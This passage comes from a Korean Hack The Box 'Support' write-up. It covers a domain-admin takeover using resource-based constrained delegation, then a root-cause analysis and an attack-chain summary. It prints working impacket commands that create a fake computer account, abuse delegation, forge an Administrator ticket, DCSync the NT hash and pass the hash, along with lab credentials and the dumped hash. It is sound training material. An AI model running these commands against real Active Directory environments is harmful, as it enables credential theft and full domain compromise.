3. 가짜 컴퓨터 계정 명의로 S4U2Self + S4U2Proxy를 수행해, DC를 대상으로 Administrator를 사칭한 서비스 티켓을 발급받는다.
4. 그 티켓으로 DC에 대해 DCSync를 수행해 Administrator 해시를 덤프한다.

#### S4U2Self와 S4U2Proxy

기본 Kerberos는 "사용자가 서버 A에 접속한 뒤 서버 A가 사용자를 대신해 서버 B에 접속하는" 3-tier 구조를 지원하지 않는다. Microsoft가 이를 확장한 것이 S4U(Service for User) 프로토콜이다.

- **S4U2Self**: 서비스 계정이 "임의 사용자(예: Administrator)를 사칭한, 자기 자신을 대상으로 하는 서비스 티켓"을 KDC에 요청한다. 자기 자신에게 발급하는 것이라 별도 권한 없이 동작한다. 이 단계의 티켓은 아직 다른 서비스에는 사용할 수 없다.
- **S4U2Proxy**: 위에서 받은 사칭 티켓을 "대상 서버(DC)의 특정 서비스(cifs)에 접근 가능한 진짜 티켓"으로 변환한다. 이 변환은 무조건 통과되지 않으며, **대상 서버의 `msDS-AllowedToActOnBehalfOfOtherIdentity`에 위임 신원이 등록되어 있어야만** 허용된다. 바로 이 조건을 GenericAll 권한으로 미리 만들어두는 것이 RBCD의 핵심이다.

`impacket-getST` 한 번의 실행이 내부적으로 S4U2Self와 S4U2Proxy 두 단계를 순차 수행한다.

### Step 1 — 가짜 컴퓨터 계정 생성

`SeMachineAccountPrivilege` 권한으로 도메인에 새 컴퓨터 계정을 생성한다. 이 계정이 "DC를 대신해 위임받는 신원" 역할을 한다.

```bash
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Passw0rd123!' \
  -dc-ip 10.129.20.107 'support.htb/support:Ironside47pleasure40Watchful'
```



`[*] Successfully added machine account FAKE01$ with password Passw0rd123!.` 메시지로 생성에 성공한다.

### Step 2 — RBCD 설정 및 티켓 발급

먼저 DC 객체의 위임 속성에 가짜 컴퓨터를 등록한 뒤(`impacket-rbcd`), Administrator를 사칭한 cifs 서비스 티켓을 발급받는다(`impacket-getST`).

```bash
impacket-rbcd -delegate-from 'FAKE01$' -delegate-to 'DC$' -action write \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-getST -spn 'cifs/dc.support.htb' -impersonate 'Administrator' \
  -dc-ip 10.129.20.107 'support.htb/FAKE01$:Passw0rd123!'
```



- `impacket-rbcd`: `support` 계정(정확히는 그가 속한 `Shared Support Accounts` 그룹)이 가진 GenericAll 권한으로 DC의 `msDS-AllowedToActOnBehalfOfOtherIdentity`에 `FAKE01$`을 기록한다. `Delegation rights modified successfully!` 메시지로 설정이 완료된다.
- `impacket-getST`: S4U2Self → S4U2Proxy 체인을 수행해 Administrator 명의의 cifs 티켓을 발급받고 `.ccache` 파일로 저장한다. `Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache` 출력으로 성공을 확인한다.

> 참고: 출력 중 `SID not found in LDAP` 경고는 머신 리셋 전의 옛 SID가 캐시에 남아 있던 잔재로, 새로 적용된 SID는 정상 처리되므로 무해하다.

### Step 3 — DCSync로 Administrator 해시 덤프

발급받은 티켓을 환경변수에 등록하고, Kerberos 인증으로 secretsdump를 실행해 도메인 계정 해시를 덤프한다.

```bash
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb
```



- `-k`: ccache의 Kerberos 티켓으로 인증한다.
- `-no-pass`: 패스워드를 입력하지 않고 티켓만으로 인증한다.

cifs 서비스 티켓은 SMB/RPC 접근에 재사용 가능하며, secretsdump는 DRSUAPI(DCSync) 방식으로 NTDS.dit의 모든 계정 해시를 복제 요청해 덤프한다.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
```

해시 형식은 `계정명:RID:LM해시:NT해시:::`이다. 앞쪽 `aad3b435...`는 빈 LM 해시를 나타내는 더미값이고, 인증에 사용하는 것은 뒤쪽 NT 해시 `bb06cbc02b39abeddd1335bc30b19e26`다.

> 참고: 실행 종료 시 출력되는 `RemoteRegistry` 서비스 정지 관련 에러는 cleanup 단계의 오류로, 덤프 결과에는 영향을 주지 않는다.

### Step 4 — Pass-the-Hash

NTLM 인증은 challenge를 **NT 해시로 암호화**한 응답을 검증한다. 즉 평문 패스워드 없이 NT 해시만으로 동일한 응답을 만들 수 있다. Evil-WinRM의 `-H` 옵션으로 해시를 그대로 넣어 Administrator로 접속한다.

```bash
evil-winrm -i 10.129.20.107 -u administrator -H bb06cbc02b39abeddd1335bc30b19e26
```



`C:\Users\Administrator\Documents`에서 셸이 열리면 도메인 관리자 권한 획득이 완료된 것이다.

### Root Flag

```powershell
cd C:\Users\Administrator\Desktop
type root.txt
```


---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP / 분류 |
|--------|------|-----------|--------------|
| 익명 정보 노출 | SMB null/guest session | 인증 없는 세션으로 커스텀 공유 접근 허용 | A01 Broken Access Control |
| 하드코딩 크리덴셜 | `UserInfo.exe` (.NET) | LDAP 서비스 계정 패스워드를 단순 XOR로 난독화해 바이너리에 내장 | A02 Cryptographic Failures |
| 약한 자체 암호화 | `getPassword()` 로직 | 고정 key(`armando`) + 고정값 XOR(`0xDF`)로 복호화 키가 바이너리에 동봉됨 | A02 Cryptographic Failures |
| 평문 패스워드 노출 | LDAP `info` 필드 | 관리자가 `support` 계정 패스워드를 디렉토리 속성에 평문 기재 | A07 Identification & Authentication Failures |
| 과도한 권한 위임 | Shared Support Accounts 그룹 | 커스텀 그룹이 DC 컴퓨터 객체에 GenericAll 보유 | A01 Broken Access Control |
| RBCD 남용 | DC `msDS-AllowedToActOnBehalfOfOtherIdentity` | 컴퓨터 객체 쓰기 권한 + 컴퓨터 계정 생성 권한 결합 | A01 Broken Access Control |

### 실제 환경에서의 위험성

SMB null/guest session을 통한 정보 노출은 공격의 출발점을 만든다. 익명 접근이 가능한 공유에 사내 제작 바이너리를 올려두는 것은, 그 바이너리가 크리덴셜이나 내부 로직을 담고 있을 때 곧바로 공격 표면이 된다. 익명 SMB 접근을 비활성화하고, 공유에는 인증과 최소 권한 원칙을 적용해야 한다.

.NET 같은 관리형 언어로 작성된 바이너리는 디컴파일에 극도로 취약하다. 자체 구현한 XOR 난독화는 복호화 키가 바이너리에 함께 들어 있으므로 암호화가 아니라 단순 인코딩에 불과하다. 애플리케이션이 사용하는 시크릿은 코드에 내장하지 말고, 런타임에 안전한 비밀 관리 솔루션에서 주입해야 한다.

LDAP `description`/`info` 필드의 평문 패스워드는 인증된 모든 사용자에게 노출되는 전형적인 실수다. 디렉토리 속성에 절대 시크릿을 기재하지 않아야 하며, 주기적으로 이러한 필드를 점검해야 한다.

RBCD로 이어지는 경로의 본질은 **권한 위임의 누적**이다. 컴퓨터 객체에 대한 GenericAll/GenericWrite 같은 위험 ACL과, 일반 사용자의 컴퓨터 계정 생성 권한(`ms-DS-MachineAccountQuota` 기본값 10)이 결합되면 도메인 컨트롤러까지 직선 경로가 만들어진다. Tier 0 자산(DC 등)에 대한 위험 엣지는 BloodHound로 주기적으로 점검해 제거하고, `MachineAccountQuota`를 0으로 설정해 일반 사용자의 컴퓨터 계정 생성을 차단해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | DC 식별(Kerberos/LDAP/SMB) | nmap |
| SMB null/guest 세션 | 익명 세션 허용 확인 | crackmapexec |
| 공유 열거 | 커스텀 공유 `support-tools` 발견 | crackmapexec --shares |
| 공유 탐색 | `UserInfo.exe.zip` 다운로드 | smbclient |
| 바이너리 분석 | .NET 어셈블리 식별 | file |
| 디컴파일 | 복호화 로직 + ldap 계정 추출 | ilspycmd |
| 크리덴셜 복구 | XOR 복호화로 ldap 패스워드 복구 | python3 |
| LDAP 열거 | `support` 계정 info 필드 평문 패스워드 발견 | ldapsearch |
| 자격증명 검증 | SMB/WinRM 유효성 + Pwn3d 확인 | crackmapexec |
| 초기 접속 | support 셸 + user flag | evil-winrm |
| 권한 정찰 | Shared Support Accounts + SeMachineAccountPrivilege 확인 | whoami /all |
| 권한 경로 분석 | DC 컴퓨터 객체 GenericAll 경로 시각화 | bloodhound-python + BloodHound CE |
| 컴퓨터 계정 생성 | RBCD용 가짜 컴퓨터 생성 | impacket-addcomputer |
| RBCD 설정 | DC 위임 속성에 가짜 컴퓨터 등록 | impacket-rbcd |
| 티켓 발급 | S4U2Self/Proxy로 Administrator 사칭 티켓 획득 | impacket-getST |
| 해시 덤프 | DCSync로 Administrator NT 해시 획득 | impacket-secretsdump |
| Pass-the-Hash | NT 해시로 Administrator 접속 + root flag | evil-winrm |

